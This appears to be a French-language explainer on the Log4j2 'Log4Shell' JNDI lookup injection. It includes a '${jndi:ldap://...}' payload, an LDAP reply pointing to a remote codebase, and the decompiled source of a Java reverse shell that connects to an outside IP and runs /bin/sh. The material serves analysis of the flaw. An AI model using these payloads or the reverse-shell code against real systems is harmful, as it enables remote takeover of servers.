

Faille historique : « la vulnérabilité la plus importante et la plus critique de la dernière décennie » (ref)
Score CVSS : 10/10
Vous connaissez l'injection SQL ? l'injection HTML ? Avec Log4j2, c'est l'injection via les lookups.
Exemple :log.error("{}", "${env:PATH}");
⇒ toute url loggant un param issu de GET/POST/headers est impactée.
Combiné avec le lookup Jndi, on obtient :
 (source)import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
public class log4j {
private static final Logger logger = LogManager.getLogger(log4j.class);
public static void main(String[] args) {
logger.error("{}", "${jndi:ldap://127.0.0.1:1389/Exploit}");
}
}
% strace -econnect -f mvn compile exec:java -Dexec.mainClass=log4j
[pid 73253] connect(108, {sa_family=AF_INET6, sin6_port=htons(1389), sin6_flowinfo=htonl(0), inet_pton(AF_INET6, "::ffff:127.0.0.1", &sin6_addr), sin6_scope_id=0}, 28) = -1 ECONNREFUSED (Connexion refusée)
22:25:55.899 [log4j.main()] ERROR log4j - ${jndi:ldap://127.0.0.1:1389/Exploit}
% ldapsearch -x -H ldap://x41.me:1389//univ-rouen.fr/X-Forwarded-For
#
dn:
javaClassName: foo
javaCodeBase: http://6jqbezekifm5y87oc8kp56l3yu4rsg.burpcollaborator.net/
objectClass: javaNamingReference
javaFactory: Log4jRCE
javaCodeBase est une url renvoyant un .class dont voici la décompilation :
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
public class Exploit
{
public Exploit() throws Exception {
String s = "213.152.161.239";
char c = '\u159E';
String s1 = "/bin/sh";
Process process = (new ProcessBuilder(new String[] {
s1
})).redirectErrorStream(true).start();
Socket socket = new Socket(s, c);
InputStream inputstream = process.getInputStream();
InputStream inputstream1 = process.getErrorStream();
InputStream inputstream2 = socket.getInputStream();
OutputStream outputstream = process.getOutputStream();
OutputStream outputstream1 = socket.getOutputStream();
do
{
if(socket.isClosed())
break;
for(; inputstream.available() > 0; outputstream1.write(inputstream.read()));
for(; inputstream1.available() > 0; outputstream1.write(inputstream1.read()));
for(; inputstream2.available() > 0; outputstream.write(inputstream2.read()));
outputstream1.flush();
outputstream.flush();
Thread.sleep(50L);
try
{
process.exitValue();
break;
}
catch(Exception exception) { }
} while(true);
process.destroy();
socket.close();
}
}
Des outils existent pour démarrer un serveur LDAP qui renvoie ce qu'il faut au format attendu par Java : exemple...
 (source)
(source)